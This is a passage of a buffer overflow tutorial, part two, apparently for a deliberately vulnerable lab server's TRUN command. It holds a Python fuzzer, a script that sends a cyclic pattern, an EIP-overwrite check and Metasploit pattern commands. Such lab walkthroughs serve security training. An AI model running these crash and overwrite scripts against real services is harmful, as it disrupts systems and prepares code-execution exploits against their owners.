 # Buffer Overflow Guide - Part 2
## Fuzzing and Finding the Offset

### 1. Fuzzing Script
Create `fuzzer.py`:

```python
#!/usr/bin/python3
import socket
import time
import sys

host = "172.29.98.109"
port = 9999

timeout = 5
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        payload = "TRUN /.:/" + string
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((host, port))
        print(f"[+] Sending payload of {len(string)} bytes...")
        s.send(bytes(payload, "latin-1"))
        s.close()
    except:
        print(f"[-] Crashed at {len(string)} bytes")
        sys.exit()
    time.sleep(1)
```

### 2. Finding Exact Crash Point
After identifying approximate crash point, create `exploit.py`:

```python
#!/usr/bin/python3
import socket

host = "172.29.98.109"
port = 9999

# Create pattern using msf-pattern_create -l 2400
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5...[PATTERN]"  # Replace with actual pattern

try:
    payload = "TRUN /.:/" + buffer
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    print("[+] Sending evil buffer...")
    s.send(bytes(payload, "latin-1"))
    s.close()
    print("[+] Payload sent!")
except:
    print("[-] Could not connect!")
```

### 3. Generate Pattern and Find Offset

1. Generate pattern:
```bash
# In Kali
msf-pattern_create -l 2400
```

2. Update exploit.py with the pattern
3. Run exploit and note the EIP value in Immunity Debugger
4. Find offset:
```bash
# In Kali - replace DEAD BEEF with your EIP value
msf-pattern_offset -l 2400 -q 386F4337
```

### 4. Verify Offset
Create `verify_offset.py`:

```python
#!/usr/bin/python3
import socket

host = "172.29.98.109"
port = 9999

# Adjust offset based on previous step (example: 2003)
offset = 2003
buffer = "A" * offset
eip = "B" * 4
payload = buffer + eip

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    
    print("[+] Sending evil buffer...")
    s.send(bytes("TRUN /.:/" + payload, "latin-1"))
    s.close()
    
    print("[+] Payload sent!")
except:
    print("[-] Could not connect!")
```

### Expected Results:
1. Fuzzer should crash around 2100-2300 bytes
2. Pattern offset should be around 2003 bytes
3. EIP should contain 42424242 ("BBBB") when running verify_offset.py

### Next Steps:
Once offset is confirmed:
1. Find bad characters
2. Find return address
3. Generate shellcode
